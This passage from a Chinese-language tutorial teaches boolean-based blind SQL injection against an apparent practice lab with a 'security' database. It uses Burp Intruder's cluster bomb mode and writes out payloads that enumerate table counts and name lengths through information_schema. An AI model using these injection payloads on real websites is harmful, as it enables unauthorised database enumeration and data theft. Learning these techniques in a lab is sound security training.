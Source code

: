 这里还可以进阶一下，使用集束炸弹模式，将字符位置设置为 Payload 1，字符内容设置为 Payload 2，实现一次爆破出所有字符  
[![](assets/1707953831-6e06b0fe09962d06308fd13b113dd9e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204191855-2ef98cc0-c34f-1.png)  
我们对一到八位依次判断后可以发现库名为 security，这里还可以用`ascii()`函数和`substr()`函数嵌套或使用`left()`函数实现，但都没有直接用`substr()`函数 + Intruder 模块方便，这里就不再赘述

之后我们使用`count()`函数来判断表的个数，这里依然可以使用 Intruder 模块，判断出有四个表  
[![](assets/1707953831-99eb629aba3f265e7dad5c2b2dffa566.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204191927-424e4a04-c34f-1.png)  
个数清晰后再来判断每个表名的长度，这里使用了`limit`方法，语法如下

```bash
limit N,M   //从第 N 条记录开始，返回 M 条记录
```

这里依次判断表的长度：

```bash
第一个表长度为 6
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+

第二个表长度为 8
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=8 --+

第三个表长度为 7
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 2,1))=7 --+

```